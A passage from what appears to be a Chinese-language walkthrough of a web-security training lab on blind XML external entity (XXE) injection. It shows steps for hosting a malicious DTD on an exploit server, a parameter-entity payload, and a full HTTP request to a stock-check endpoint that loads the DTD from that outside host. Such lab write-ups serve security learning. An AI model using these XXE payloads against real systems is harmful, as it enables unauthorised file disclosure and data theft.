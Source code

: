 单击"Go to exploit server"并将恶意 DTD 文件保存在服务器上，单击"查看漏洞"并记下 URL

[![](assets/1706060044-4bb4084cb6bf9c350fe5a0822fbe1980.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240123131726-b23948a0-b9ae-1.png)  
随后需要通过添加引用恶意 DTD 的参数实体来利用股票检查器功能，在 XML 声明和 stockCheck 元素之间插入以下外部实体定义：

```plain
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

```plain
POST /product/stock HTTP/1.1
Host: 0a550032033f094c80325843002000cd.web-security-academy.net
Connection: close
Content-Length: 234
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a550032033f094c80325843002000cd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a550032033f094c80325843002000cd.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=F9hc72Qi6qlwSFI45griUZdBSBgi00gB

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a5b0017037d097880e1577001da00ec.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
